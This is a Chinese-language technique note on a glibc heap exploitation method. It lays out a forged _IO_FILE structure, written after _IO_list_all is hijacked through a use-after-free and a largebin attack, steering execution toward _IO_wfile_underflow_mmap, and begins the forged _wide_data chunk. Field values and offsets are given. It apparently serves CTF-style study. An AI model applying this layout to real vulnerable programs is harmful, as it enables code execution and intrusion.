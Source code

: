 ## 常用触发方式

至少需要`UAF`完成一次`largebin attack`

## 结构体构造

劫持`_IO_list_all`为`fp`后构造如下：

```c
{
  file = {
    _flags = 0x68732020, // 不包含4即可，偏移0x0
    _IO_read_ptr = 0x101, // 一般为size位，不是我们构造的
    _IO_read_end = 0x200, // 需要大于_IO_read_ptr，偏移为0x10
    _IO_read_base = 0x0,
    _IO_write_base = 0x0, // _IO_write_ptr > _IO_write_base，偏移为0x20
    _IO_write_ptr = 0x1, // 偏移为0x28
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x0,
    _fileno = 0x0,
    _flags2 = 0x0,
    _old_offset = 0x0,
    _cur_column = 0x0,
    _vtable_offset = 0x0,
    _shortbuf = {0x0},
    _lock = 0x0,
    _offset = 0x0,
    _codecvt = 0x0,
    _wide_data = 0x55c68bb6ab20, // _wide_data设置为可控堆块A，偏移为0xa0
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0x0,
    _mode = 0x0,
    _unused2 = {0x0 <repeats 20 times>}
  },
  vtable = 0x7fa861f9e008 // 要使得调用到_IO_wfile_underflow_mmap，可以设置为虚表_IO_wfile_jumps_mmap的偏移，偏移为0xd8
}
```

可控堆块`A`构造如下：

```c
{
  _IO_read_ptr = 0x1, // _wide_data -> _IO_read_ptr > _wide_data-> _IO_read_end
  _IO_read_end = 0x0, // 偏移为0x8
  _IO_read_base = 0x0,
  _IO_write_base = 0x0,
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0, // _wide_data->_IO_buf_base设置为0，偏移为0x30
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0, // _wide_data->_IO_save_base设置为0，偏移为0x40
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _IO_state = {
	...
  },
  _IO_last_state = {
	...
```